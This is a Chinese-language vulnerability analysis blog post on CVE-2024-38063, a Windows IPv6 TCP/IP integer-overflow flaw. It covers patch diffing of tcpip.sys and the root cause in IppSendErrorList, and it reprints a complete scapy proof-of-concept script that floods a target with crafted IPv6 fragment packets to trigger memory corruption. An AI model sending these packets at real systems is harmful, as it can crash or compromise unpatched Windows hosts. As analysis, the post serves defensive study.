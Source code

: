 #  CVE-2024-38063：IPv6远程代码执行漏洞分析   
原创 洞源实验室  洞源实验室   2024-11-01 20:01  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/gEGSydvbZs4d72mNRvgHO0s8AvQmZI30kkYzmR5u37lSMdZQeFt6A6lWoV8tkVVaSLkzoIlcq7ibYyARsicu5G0A/640?wx_fmt=gif "")  
  
    2024年8月13日，微软在“补丁星期二（Patch Tuesday）”更新中披露了一个严重漏洞CVE-2024-38063，该漏洞是由国内赛博昆仑实验室的Wei发现并上报，影响到Windows系统的TCP/IP协议实现，TCP/IP协议是用于互联网通信的基本通信协议。该漏洞的CVSS评分为9.8（严重），且允许攻击者在启用IPv6的系统上远程执行任意代码（RCE，Remote Code Execution），因而这个漏洞可以远程被利用，并且有“蠕虫化”的潜力，这也意味着它可以在无需用户交互的情况下在网络中传播。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/gEGSydvbZs7olcwEC5MjKdI4rwy1iap8eFbicEIngMNSe6gZWlicJia01gYqpZZKmggfZyxLroVjI2ftwknusH5bNg/640?wx_fmt=png&from=appmsg "")  
  
**影响范围**  
  
    该漏洞影响到启用IPv6协议的Windows系统，而IPv6协议在Windows系列系统中都是默认启用的，因此漏洞影响范围包括Windows
10、Windows 11和从2008年到2022年的各种Windows Server版本。  
  
漏洞原理  
  
    从漏洞信息可以看出该漏洞的弱点是CWE-191（整数溢出），但为了理解该漏洞的原理，需要了解CVE-2024-39063的补丁做了哪些修订，由于受影响的是IPv6协议的实现文件tcpip.sys，因此需要对比补丁前后的tcpip.sys文件的不同，这个步骤可以利用Winbindex网站（https://winbindex.m417z.com/）和bindiff工具，前者可以用来查询和下载不同版本的Windows系统文件，包括像tcpip.sys这样的系统文件，后者是一个二进制差异对比工具，通常配合IDA
Pro使用，用来比较两个不同版本的二进制文件。  
  
    笔者使用的是Windows 10专业版22H2版本的系统进行文件对比和分析，因此在Winbindex中寻找补丁发布（2024年8月13日）前后该版本操作系统的tcpip.sys文件。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/gEGSydvbZs7olcwEC5MjKdI4rwy1iap8e0dIlH95rWUNweXvmJibmr0a9swNQtUib3IdI6lAxMYxHGKCQauzN2HZg/640?wx_fmt=png&from=appmsg "")  
  
    下载之后的文件需要用IDA Pro分别打开并保存（或快捷键Ctrl+W）为i64后缀的数据文件，之后使用IDA Pro自带的bindiff工具（或快捷键Shift+D）对比两个文件的差异。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/gEGSydvbZs7olcwEC5MjKdI4rwy1iap8eIxoX5jaTh1VcbUuFvOyT6Zl4Yv1LfO3J1YeE2T08v9R1gnJ3S0CtPQ/640?wx_fmt=png&from=appmsg "")  
  
    在匹配函数（Matched Functions）功能中可以看到这两个文件唯一的区别是来自Ipv6pProcessOptions函数，根据函数名称可知该函数在Windows系统中是用来处理IPv6数据包选项信息的。  
  
    IPv6报文（Packet）的报头（Header）分为两个部分，第一部分是固定报头或基础报头（Fixed/Base Header），其长度固定为40字节，包括版本（Version）、通信类（Traffic Class）、流标签（Flow Label）、载荷长度（Payload
Length）、下一个报头（Next Header）、跳数限制（Hop Limit）、源地址（Source Address）、目的地址（Dstination Address），第二部分是扩展报头（Extension Header），其长度不固定，但内容包括逐跳选项（Hop-by-Hop Options）、目的地选项(Destination
Options)、路由头(Routing Header)等。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/gEGSydvbZs7olcwEC5MjKdI4rwy1iap8e5q5cZOPK89n4ibkIgvr5HnHnOEGic1FvZXAaicCoNLNGWrweTC0ew8CYA/640?wx_fmt=png&from=appmsg "")  
  
    Ipv6pProcessOptions函数就是用来处理IPv6报头的扩展报头选项的，这个函数在两个版本的文件中的主要区别在于函数最后一部分代码，7月16日签名的版本中该部分的代码如下：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/gEGSydvbZs7olcwEC5MjKdI4rwy1iap8eEwor7uyTibmFjMSIpQLNjicW0SibJAw0Reuk5TTic8FcXVvEVHYNhY4oVA/640?wx_fmt=png&from=appmsg "")  
  
    8月10日签名的版本中该部分的代码如下：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/gEGSydvbZs7olcwEC5MjKdI4rwy1iap8e4zicR930NOSAVZOTiagOq3YWMTxjVdRlpd5j0WO8zh8y3YYzEqtoHawQ/640?wx_fmt=png&from=appmsg "")  
  
    上面代码中Feature_2365398330__private_IsEnableDeviceUsage函数的返回值赋值给IsEnableDeviceUsage，而该变量决定是否执行IppSendError函数还是IppSendErrorList函数，后者是补丁前文件中的代码，结合函数名称可以判断，该函数用于设定是否启用补丁程序，以避免补丁程序存在缺陷对系统产生影响，同时也意味着漏洞的位置是在IppSendErrorList函数的实现中。  
  
    接着查看IppSendErrorList函数（如下图），这个函数中定义了一个临时的指针变量*v8，同时结合通过遍历传入的指针参数*a3，实现IppSendError函数对于指针*a3的遍历调用，即使用函数IppSendError处理链表中的节点。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/gEGSydvbZs7olcwEC5MjKdI4rwy1iap8eRVTQHkcRLSJDDdOAGmiaXRFsVv7UZzLRczBD79X70sUlsUwWP8hSoBA/640?wx_fmt=png&from=appmsg "")  
  
    而补丁修改的代码是删除了IppSendErrorList函数直接调用IppSendError函数，也就是说补丁的核心功能是去掉了链表遍历。这是两个完全不同逻辑的处理方式，前者是通过链表处理每个节点，后者则是只处理一个节点，上述代码的入参a1同时也是Ipv6pProcessOptions函数的入参，这个参数其实是NET_BUFFER_LIST结构的网络包的列表，更新后的补丁只处理第一个节点，也意味着漏洞的成因是由于链表的处理。  
  
    从IppSendError函数名称可以判断，这个函数的功能是用来发现IPv6报头错误后发送错误的，之所以存在链表的处理方式，根据上文中IPv6报头结构可知，下一个头（Next
Header）会指定扩展报头，而每一个扩展报头又会通过下一个头（Next Header）继续指定扩展报头，这个结构本身就是链表形式，因此IppSendErrorList设计的初衷应当是用来逐个处理每一个扩展头的错误。  
  
    在IppSendError函数的伪代码中可以看到多次调用NetioRetreatNetBufferList函数，该函数是用来撤回网络缓冲区重新传输或丢弃数据包用的，或者说是用来处理错误信息的必要函数，既然是整数溢出漏洞，那么就需要特别关注下NetioRetreatNetBufferList上下文的部分，其中尤为可疑的部分是下图中的代码。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/gEGSydvbZs7olcwEC5MjKdI4rwy1iap8e0iaPX2gsVULSSj7e9ib0XzIXysaIwiaW7YaaZzvmWD76nyOwezhzibEZwA/640?wx_fmt=png&from=appmsg "")  
  
    结合NetioRetreatNetBufferList的定义如下：  
```
VOID
NetioRetreatNetBufferList(
 _In_ PNET_BUFFER_LIST NetBufferList,
 _In_ ULONG DataOffsetDelta,
 _In_ ULONG DataBackFill,
 _In_ BOOLEAN MdlOnly
 );
```  
  
  
    NetioRetreatNetBufferList的第二个参数是整数类型的DataOffsetDelta，该参数指定的是NET_BUFFER_LIST中的数据指针的偏移量，而这个偏移量在处理分包的时候被置为了0。这么做的后果是遇到多个小报文组成的IPv6数据包时，随着分片处理和合并，使用重置为0的DataOffsetDelta申请内存，并在后续的Ipv6pReassemblyTimeout函数中调用，从而产生了内存溢出。  
  
漏洞利用  
  
    ynwarcs已经在漏洞披露后编写了很好的PoC程序，代码如下：  
  
```
from scapy.all import *

iface='' # interface of network
ip_addr='' # Target ip address
mac_addr='' # Leave this empty at default
num_tries=20
num_batches=20

def get_packets_with_mac(i):
    frag_id = 0xdebac1e + i
    first = Ether(dst=mac_addr) / IPv6(fl=1, hlim=64+i, dst=ip_addr) / IPv6ExtHdrDestOpt(options=[PadN(otype=0x81, optdata='a'*3)])
    second = Ether(dst=mac_addr) / IPv6(fl=1, hlim=64+i, dst=ip_addr) / IPv6ExtHdrFragment(id=frag_id, m = 1, offset = 0) / 'aaaaaaaa'
    third = Ether(dst=mac_addr) / IPv6(fl=1, hlim=64+i, dst=ip_addr) / IPv6ExtHdrFragment(id=frag_id, m = 0, offset = 1)
    return [first, second, third]

def get_packets(i):
    if mac_addr != '':
        return get_packets_with_mac(i)
    frag_id = 0xdebac1e + i
    first = IPv6(fl=1, hlim=64+i, dst=ip_addr) / IPv6ExtHdrDestOpt(options=[PadN(otype=0x81, optdata='a'*3)])
    second = IPv6(fl=1, hlim=64+i, dst=ip_addr) / IPv6ExtHdrFragment(id=frag_id, m = 1, offset = 0) / 'aaaaaaaa'
    third = IPv6(fl=1, hlim=64+i, dst=ip_addr) / IPv6ExtHdrFragment(id=frag_id, m = 0, offset = 1)
    return [first, second, third]

final_ps = []
for _ in range(num_batches):
    for i in range(num_tries):
        final_ps += get_packets(i) + get_packets(i)

print("Sending packets")
if mac_addr != '':
    sendp(final_ps, iface)
else:
    send(final_ps, iface)

for i in range(60):
    print(f"Memory corruption will be triggered in {60-i} seconds", end='\r')
    time.sleep(1)
print("")
```  
  
  
参考资料  
- https://github.com/ynwarcs/CVE-2024-38063  
  
- https://malwaretech.com/2024/08/exploiting-CVE-2024-38063.html  
  
